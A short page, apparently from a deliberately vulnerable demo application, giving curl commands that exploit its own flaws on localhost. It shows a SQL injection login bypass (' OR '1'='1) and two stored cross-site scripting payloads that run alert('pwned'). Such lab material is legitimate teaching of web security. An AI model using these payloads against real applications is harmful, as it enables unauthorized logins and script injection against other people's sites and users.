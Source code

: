 A collection of curl commands you can use to exploit the vulnerabilities in the application.

## SQL injection

```bash
# Log in as any user
curl -X POST "http://localhost:8080/api/login" -H "Content-Type: application/json" -d "{\"username\": \"user\", \"password\": \"' OR '1'='1\"}" -v && echo ""
```

## Cross-site scripting

```bash
# Create a button that executed code when clicked
curl -X POST "http://localhost:8080/api/messages" -H "Content-Type: application/json" -d "{\"userId\": 1, \"message\": \"<button onclick=\\\"alert('pwned')\\\">Click me</button>\"}" -v && echo ""

# Execute a script when the guestbook page is loaded
curl -X POST "http://localhost:8080/api/messages" -H "Content-Type: application/json" -d "{\"userId\": 1, \"message\": \"<img onLoad=(alert('pwned')) src=\\\"./favicon.ico\\\" />\"}" -v && echo ""
```
